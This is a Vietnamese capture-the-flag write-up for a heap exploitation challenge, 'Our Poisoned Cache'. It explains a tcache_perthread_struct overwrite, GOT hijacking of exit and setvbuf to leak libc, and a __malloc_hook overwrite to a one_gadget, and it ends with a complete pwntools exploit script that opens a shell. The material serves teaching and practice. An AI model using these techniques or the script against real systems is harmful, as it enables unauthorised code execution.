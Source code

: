 # Our Poisoned Cache

## Summary
  Ý định của mình cho vòng qual chỉ là một bài pwn heap cơ bản liên quan đến **tcache struct attack** . Ban đầu challenge không có stack leak mà chỉ có heap leak tuy nhiên điều này tạo ra một challenge rất hạn hẹp và nhàm chán, dù gì thì đây cũng chỉ là một bài introduction đến với heap exploit. Tuy nhiên solution của mình sẽ không dùng đến stack leak có sẵn.
  
## Description

>My h4ck3r friend said that my program can be exploited, something something related to poisoning. I don't understack this hacking's lingo. Can you exploit this and read my file flag.txt?

![image](https://user-images.githubusercontent.com/101010673/174489807-04014b5a-7138-4afb-b016-6c767391df3a.png)  

  - Hint ở đây là liên quan đến **tcache poisoning**. Nhưng khác với technique thông thường chúng ta sẽ không overwrite lên tcache chunk đã bị free, mà chúng ta sẽ exploit thẳng vào tcache struct nằm sẵn ở trên heap.
  - Đồng thời nhận thấy đây là **partial RELRO** và **NO PIE**. Ta sẽ exploit cả vào **GOT Table**

## Reversing
  ![image](https://user-images.githubusercontent.com/101010673/174490407-e48b3b86-b3c8-4b5a-a67b-3c9f9ff4fa56.png)  

  Đây là phần quan trọng nhất của cả chương trình. Work flow của chương trình là như sau:  
  - **Malloc** 0x40 bytes chunk  
  - **Malloc** 0x10 bytes chunk (Tránh chunk consolidation)  
  - Cho ta biết **heap base** và **stack address**
  - **Free** 0x40 bytes chunk  
  - Cho ta **arbitrary write chỉ riêng trên heap** 
  ![image](https://user-images.githubusercontent.com/101010673/174490474-4022bc33-2af5-4b30-a7a5-c6f7929785c6.png)  
      
  - Chỉ **malloc** 0x40 bytes chunk 1 lần nữa nếu ta đã không ghi đè vào **fd pointer** của freed tcache chunk, và **bk pointer** nằm trong heap range  
  ![image](https://user-images.githubusercontent.com/101010673/174490505-b9ec90f3-da1b-4b58-8705-5bf2441e4235.png)  
  - **Chỉ chunk 0x40 bytes lần 2 là ta có quyền nhập vào 0x30 bytes.**  
  - Chương trình sẽ exit ngay sau đó  
    
  => Với restriction này ta không thể thực hiện **tcache poisoning** thông thường

## Prerequisite Knowledge
  Trước tiên chúng ta cần nói qua về **tcache struct attack**:  
```c
  typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];//0x40
  tcache_entry *entries[TCACHE_MAX_BINS];//0x40
} tcache_perthread_struct;
```  
  - Khi chương trình dùng đến **TCACHE**, thì **tcache_perthread_struct** sẽ được initialized và được lưu trữ ngay trên heap  
  ![image](https://user-images.githubusercontent.com/101010673/174491121-d069fa38-a099-453c-9864-84c5a8826255.png)  
  - Nó chính là chunk đầu tiên với size `0x290 bytes`
  - Struct tcache sẽ bao gồm một array *counts* đầu tiên với 0x40 bytes. Mỗi bytes sẽ đại diện cho số lượng tcache với size đó mà ta hiện có)  
  - Một array *entries* chính là **address của chunk đứng đầu trên single linked list** của tcache với từng size một. 
  ![image](https://user-images.githubusercontent.com/101010673/174491555-9f603fa8-e8ca-411f-872c-36e5af12dc4e.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491573-022e2a56-f9db-4276-9483-9a762cb55066.png)   
  - Một tcache linked list thông thường sẽ như sau: Size 0x20: Chunk 1 -> Chunk 2 -> Chunk 3 -> ..... -> Chunk 7 ( Tcache của một size chỉ cố tối đa **7 chunk**)
  - Với **tcache poisoning** thông thường ta sẽ pollute **fd (forward) pointer** để làm thay đổi linked list dẫn đến chunk tiếp theo sẽ trả về một địa chỉ khác.
  - Size 0x20: Chunk 1 -> Chunk 2(fd pointer poisoned) -> (The address we poisoned with) -> corrupted
  - Như vậy lần **malloc** thứ nhất với size 0x20 bytes, chương trình kiểm tra tcache và thấy có chunk 1 free -> Chương trình trả về chunk này cho chúng ta
  - Lần **malloc** thứ hai tương tự, nhưng lần này sau chunk 2 lại trỏ đến một address khác (Ta đã poison tcache)
  - Lần **malloc** thứ ba, sẽ trả về address mà ta đã poison
  - Tuy nhiên như đã nói ở trên chương trình có kiểm tra xem **fd pointer** của chunk có bị corrupt không thế nên ta sẽ không tấn công vào đây mà sẽ tấn công ngay vào **entries** hay chính là chunk đầu tiên  
  ![image](https://user-images.githubusercontent.com/101010673/174491604-6f550d5b-8772-4192-b2c1-6350ce65e842.png)  
  - **0x4052a0** chính là entries tương ứng với 0x50 size tcache chunks và ta cần ghi đè địa chỉ này thành địa chỉ khác

## Arbitrary Write
  Từ kiến thức về **tcache struct attack** ở trên ta đã có khả năng để **arbitrary write ngoài vùng heap** với ý tưởng như sau:
  - Quay lại về flow của chương trình: ptr = malloc(0x40) -> free(ptr) -> malloc(0x40)
  - Như vậy sau lần malloc đầu rồi free, tcache 0x50 sẽ có một chunk đấy chính là **0x4052a0**  
  - Ta sẽ ghi đè địa chỉ này lần malloc sau đó sẽ trả về address ta mong muốn  
  
  Ví dụ: Ta ghi đè với **0x405310**  
  ![image](https://user-images.githubusercontent.com/101010673/174491852-0a10a91c-3de1-4ff9-9c91-8d284adab2a7.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491913-a489e067-d9e8-46a5-bffc-fc2559fbcf68.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491894-bbce2064-b7a9-470e-b9ec-fbe069bb8d8f.png)  
  
  Giờ thì ta có thể ghi đè **GOT Table**, ghi đè **GOT của exit** thành địa chỉ của main để ta có thể chạy chương trình vô hạn lần
  
  **Chú ý:** Sau khi ta ghi đè **entries** xong thì **fd pointer** của chunk tiếp theo sẽ tiếp tục bị corrupt, nên ta cần phải ghi đè lại **fd pointer** thành null để thỏa mãn điều kiện malloc lần 2  
  ![image](https://user-images.githubusercontent.com/101010673/174492474-8d9928dc-d621-4965-822e-049dda9d33a9.png)  
  8 bytes đầu tiên không còn là null như lần đầu nữa nên ta cần ghi đè lại  
  
## Info-leak
  Đầu tiên ta cần leak được địa chỉ libc, solution của mình sẽ leak thông qua **setvbuf**  
  ![image](https://user-images.githubusercontent.com/101010673/174492592-9786c4cb-ea04-48c1-873e-24d56761aeab.png)  
  - Nếu **GOT của setvbuf** trở thành **printf**, thì ta sẽ in ra được giá trị lưu tại địa chỉ global **stdin,stdout,stderr**  
  - Mà các địa chỉ global kia lại được lưu ở **.bss** -> ta có thể ghi đè cả địa chỉ global này  
  => Ta có thể leak giá trị ở bất kì địa chỉ nào mà ta mong muốn  

## Control RIP  
  - Để kiểm soát được luồng thực thi của chương trình (Hijacking RIP), ta sẽ dùng trick phổ biến: ghi đè **__malloc_hook** thành **one_gadget**  
  - Như vậy mỗi khi chương trình gọi **malloc** -> gọi **malloc_hook** -> gọi **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/175662573-0fe3c977-35f6-4338-aa4b-b892f81c10bc.png)   
  - Mình sử dụng **one_gadget** nằm ở offset **0xe3b01**  
 
## Full exploit script  
```python
from pwn import *

r = remote("127.0.0.1",2005)

r.recvuntil("is: ")
heap_base = int(r.recvline()[0:-1],16)
r.recvuntil("is: ")
stack_addr = int(r.recvline()[0:-1],16)
overwrite_tcache = heap_base + 0xa8
exit_got = 0x404068
free_got = 0x404018
stderr = 0x4040a0
main = 0x004012c7
setvbuf = 0x404050
log.info("Overwriting exit GOT to point to main")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(exit_got)))
r.send(p64(main))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x310)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting setvbuf to point to printf")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(setvbuf)))
r.send(p64(0x401050) + p64(0x401016))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x3f0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting stderr to another address point to read GOT")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(stderr)))
r.send(p64(0x404040))
r.recv(8)


log.info("Setvbuf will now print out libc address stored at read GOT")
leak_libc = u64(r.recv(6).ljust(8,"\x00"))
libc_base = leak_libc - 0x10dfc0
malloc_hook = libc_base + 0x1ecb70
one_gadget = libc_base + 0xe3b01
log.info("Libc Base Address: " + hex(libc_base))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x4d0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting __malloc_hook to one_gadget")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(malloc_hook)))

r.send(p64(one_gadget))
r.clean()
r.interactive()

```  
![image](https://user-images.githubusercontent.com/101010673/174493058-839a6328-e738-441d-a9fc-c9f32cbab67c.png)


  

  
  
  
  


  
  


